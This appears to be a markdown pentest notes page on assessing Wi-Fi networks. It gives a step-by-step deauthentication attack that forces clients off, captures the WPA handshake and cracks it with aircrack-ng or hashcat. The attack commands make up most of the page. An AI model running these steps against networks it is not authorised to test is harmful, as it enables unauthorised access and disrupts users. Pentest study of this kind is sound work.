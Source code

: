 # Wireless Pentest

## Assessment of wireless network

  - WPA2 / WPA3
  
  - PSK or Enterprise
  

## Activities performed

  - Evaluate strength of key
  
  - Review of nearby networks
   
      - rouge networks / suspicious 
      
  - Accessing aspects of networks from certain networks / segmentation
  
       - i.e Guest network should not have access to corperate devices
       
 
## Process for deauth attack

 1. Place wireless car into monitor mode
 
        iwconfig  # check interfaces
        
        airmon-ng check kill #Kill interfering processes
        
        airmon-ng start <wireless int>
 
 2. Discover info about channel and BSSID
 
        airodump-ng <wireless int>mon
 
       Here you want to find the BSSID you want to attack and the channel its on. 
 
 3. Select network and capture data
 
                
        airodump -c <channel> --bssid <BSSID> -w <output filename> <Wireless int>mon
        
      You will now only see traffic and clients connected to that BSSID. 
      
      You can wait around for clients to perform the handshake or you can deauth the client off and make them redo it.
 
 4. Perform deauth attack
 
       In a new terminial
       
        aireplay -0 1 -a <BSSID> -c <CLIENT MAC> <wireless int>mon
 
 5. Capture WPA handshake
 
       Watch the airodump terminal for "WPA handshake captured". Then you can stop the dump.
 
 6. Attempt to crack the handshake
 
       You can use aircrack-ng or [hashcat](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Cracking/Hashcat.md)

        aircrack-ng -w <wordlist> -b <BSSID> <capture file>












